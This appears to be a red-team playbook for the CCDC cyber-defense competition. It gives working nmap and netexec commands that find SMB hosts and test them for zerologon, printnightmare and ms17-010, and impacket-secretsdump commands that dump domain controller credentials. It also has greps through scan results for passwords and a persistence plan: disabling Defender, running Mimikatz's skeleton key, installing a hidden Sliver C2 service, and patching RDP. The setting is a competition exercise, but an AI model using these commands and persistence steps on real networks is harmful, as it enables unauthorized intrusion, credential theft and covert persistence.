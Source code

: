 ```yaml
---
layout: blank
pagetitle: Red Teaming for CCDC
---
```


## Playbook

- Make sure to have a sheet with all host/shell info, so if we lose a shell we know where we lost it
- Before competition start, have kali already hosting a Linux implant/beacon, Windows implant/beacon, and our persistence scripts/binaries. 
- Opening Salvo:
  - Quickly nmap scan for port 445, as this will almost always be our gateway in
  - `sudo nmap -T4 -min-hostgroup 96 -p 53,445 --open {IP_range} | grep -oE '([0-9]{1,3}\.){3}[0-9]{1,3}' | sort -u > smb_ips.txt`
    - `-min-hostgroup` will divide the range up into 96 sup parts
    - Instead of `-T4`, we can specify `--max-retries 2 --max-rtt-timeout {double_time_to_ping}ms --min-rate 300`
  - Then, check SMB IPs with `while read -r line; do nxc smb $line -u '' -p '' -M zerologon -M printnightmare -M smbghost -M ms17-010; done < smb_ips.txt` 
    - If we get a zerologon hit, run `zerologon.py` and then `impacket-secretsdump -just-dc -no-pass {domain}/{machine_name}:@{DC_IP}`
      - e.g. `impacket-secretsdump -just-dc -no-pass 'corp.local/TEST-DC$@10.10.0.162'` (if DC name is TEST-DC)
  - Simultaneously run a scan for all port 22s (so we can use them when we find the default password)
    - `sudo nmap -sV -O -T4 -min-hostgroup 96 -p 22 {IP_range}`
  - Additionally, one final `sudo nmap -sn -T4 {IP_range} | grep -oE '([0-9]{1,3}\.){3}[0-9]{1,3}' | sort -u > ips.txt` to just figure out what hosts are online
    - Then pass alive hosts to autorecon with `sudo autorecon -t ips.txt -p 21,22,23,25,53,80,110,111,135,139,143,389,443,445,465,636,873,993,995,1025-1030,1080,1433,1521,1723,3306,3389,5432,5900,5985,6379,6667,8000,8080,8443,8888 -o autorecon_results --max-scans 100`

## Autorecon
- Overall status: `find autorecon_results -name "*.txt" -type f -exec grep -l "open" {} \; | sort`
- Common vulns: `grep -r "MS17-010\|CVE-\|Anonymous\|Password:" autorecon_results`
- Anonymous access: `grep -r "Anonymous" autorecon_results`
- Find DC: `grep -r "Domain Controller" autorecon_results`
- Passwords: `grep -r "Password:\|Credentials:" autorecon_results`
- Missing SMB signing: `grep -r "SMB signing required: false" autorecon_results`

## Machine Persistence

**Windows:**
- Todo
  - Write a persistence script that does the following 
    - (maybe) Creates an exclusion for ProgramData AND/OR disables defender
    - Downloads and executes Mimikatz's skeleton key module
    - Downloads sliver shell and creates a sliver service hidden with ACLs
  - Investigate hiding services with ACLs: https://www.sans.org/blog/red-team-tactics-hiding-windows-services
    - This seems extremely good
  - Pivoting with netsh port proxy
  - C2s
    - BOAZ: https://github.com/thomasxm/BOAZ_beta
    - ChromeAlone: https://github.com/praetorian-inc/ChromeAlone
    - HiddenDesktop: https://github.com/WKL-Sec/HiddenDesktop
    - Test out some payloads
  - Hidden RDP
    - Patching termsrv - https://freedium.cfd/https://samdecrock.medium.com/patching-microsofts-remote-desktop-service-yourself-db25a4d8bc64